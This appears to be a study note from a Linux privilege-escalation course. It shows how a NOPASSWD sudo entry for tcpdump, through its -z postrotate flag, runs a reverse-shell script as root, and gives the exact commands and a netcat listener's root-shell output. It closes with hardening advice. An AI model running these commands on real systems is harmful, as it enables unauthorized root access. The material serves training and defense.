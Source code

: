 # Sudo Rights Abuse

Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges. When the **sudo** command is issued, the system will check if the user issuing the command has the appropriate rights, as configued **/etc/sudoers**.

When landing on a system, we should always check to see if the current user has nay privileges by typing `sudo -l`. Sometimes we will need to know the user's password to list their **sudo** rights, but any rights entries with the **NOPASSWD** options can be seen without entering a password.

`sudo -l`

It is easy to misconfigure this. For example, a user may be granted root-level permissions without requiring a password. Or permitted command line might be specified too loosely, allowing us to run a program in an unintended way, resulting privilege escalation. For example, if the sudoers file is edited to grant a user the right to run a command such as **tcpdump** per the following entry in the sudoers file: **(ALL) NOPASSWD: /usr/sbin/tcpdump** an attacker could leverage this to take advantage of the **postrostate-command**

`man tcpdump`

By specifying the -z flag, an attacker could use **tcpdump** to execute a shell script, gain a reverse shell as the root use or run other privileged commands. For example, an attacker could create the shell script **.test** containing a reverse shell and execute it as follows:

`sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`

Let's try this out. First, make a file to execute with the **postrotate-command**. adding a simple reverse shell one-liner.

`cat /tmp/.test`

Next, start a **netcat** listener on our attacking box run **tcpdump** as root with the **postrotate-command**. If all goes to plan, we will receive a reverse shell connection.

`sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`

```EXAMPLE OUTPUT
$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in mor recent distributions has predefined the commands, used with the **postrotate-command**, effectively preventing command execution. Two best practices that should always be considered when provisioning **sudo** rights:

1. Always specify the absolute path to any binaries listed in the **sudoers** file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next session) to create a malicious binary that will be executed when the command runs (i.e., if the sudoers entry specifies **cat** instead of **/bin/cat** this could likely be abused).
2. Grant **sudo** rights sparingly and based on the principle of least privilege. Does the user need full **sudo** rights? Can they still perform their job with one or two entries in the **sudoers** file? Limiting the privileged command that user can run will greatly reduce the likelihood of successful privilege escalation.

---

↩️: [Home](../../index.md)
